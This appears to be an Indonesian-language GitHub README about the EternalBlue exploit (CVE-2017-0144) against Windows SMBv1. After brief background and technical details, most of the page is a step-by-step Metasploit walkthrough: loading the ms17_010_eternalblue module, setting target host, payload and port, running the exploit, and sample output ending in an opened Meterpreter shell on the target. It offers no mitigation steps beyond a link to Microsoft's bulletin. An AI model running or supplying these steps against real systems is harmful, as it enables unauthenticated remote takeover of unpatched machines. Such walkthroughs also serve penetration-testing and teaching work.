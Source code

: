 # EternalBlue

## A. Apa itu EternalBlue?

[EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) adalah exploit yang menargetkan kerentanan di Server Message Block version 1 (SMBv1) pada sistem operasi Windows. Kerentanan ini terdaftar dengan ID `CVE-2017-0144` dan ditemukan oleh [NSA (National Security Agency)](https://www.nsa.gov/), lalu bocor ke publik oleh kelompok hacker bernama [Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers).

Kerentanan ini memungkinkan Remote Code Execution (RCE), artinya penyerang bisa mengeksekusi kode berbahaya dari jarak jauh tanpa autentikasi, hanya dengan mengirimkan paket SMB berbahaya ke port `445`.

> EternalBlue merupakan exploit yang digunakan dalam serangan besar seperti `WannaCry` dan `NotPetya`.

## B. Detail Teknis
- CVE ID: `CVE-2017-0144`
- Tanggal Rilis: `14 Maret 2017`
- Tipe: Remote Code Execution (RCE)
- Protokol: `SMBv1`
- Komponen: `srv.sys`
- Platform: `Windows XP` hingga `Windows Server 2012 R2` (termasuk `Windows 7` dan `8`)
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `8.1` (Tinggi)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `EternalBlue`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit EternalBlue:

   ```
   msf6 > use exploit/windows/smb/ms17_010_eternalblue
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 445
   msf6 > set VERIFY_ARCH true
   msf6 > set VERIFY_TARGET true
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] 192.168.1.50:445 - Starting non-paged pool grooming
   [*] 192.168.1.50:445 - Sending start free hole packet.
   [+] 192.168.1.50:445 - Sending SMBv2 buffers
   [*] 192.168.1.50:445 - Sending end free hole packet.
   [+] 192.168.1.50:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
   [*] 192.168.1.50:445 - Sending final SMBv2 buffers.
   [*] 192.168.1.50:445 - Sending last fragment of exploit packet!
   [*] 192.168.1.50:445 - Making :eb_trans2_exploit packet
   [*] 192.168.1.50:445 - Receiving response from exploit packet
   [+] 192.168.1.50:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
   [*] 192.168.1.50:445 - Sending egg to corrupted connection.
   [*] 192.168.1.50:445 - Triggering free of corrupted buffer.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 5 opened (192.168.1.42:4444 -> 192.168.1.50:49159) at 2025-05-15 20:25:57 +0700
   [+] 192.168.1.50:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.50:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.50:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.
